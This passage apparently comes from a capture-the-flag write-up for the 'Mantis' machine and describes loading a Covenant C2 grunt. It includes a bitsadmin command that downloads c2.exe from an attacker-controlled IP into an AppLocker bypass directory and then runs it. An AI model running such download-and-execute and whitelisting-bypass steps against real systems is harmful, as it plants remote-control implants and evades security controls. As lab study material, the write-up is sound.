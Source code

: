 ![c2-start](/images/mantis/covenant-start.png)

### Loading a Covenant Grunt

Firstly, create a new grunt and host it on a listner.

![c2.exe](/images/mantis/listener-1.png)

Now download it to an AppLocker Bypass directory like `C:\Windows\System32\spool\drivers\color` and execute it.

{% highlight powershell linenos %}
bitsadmin /transfer downloadjob /download /priority normal http://10.10.14.14/c2.exe C:\Windows\System32\spool\drivers\color\c2.exe
cd C:\Windows\System32\spool\drivers\color
c2.exe
{% endhighlight %}
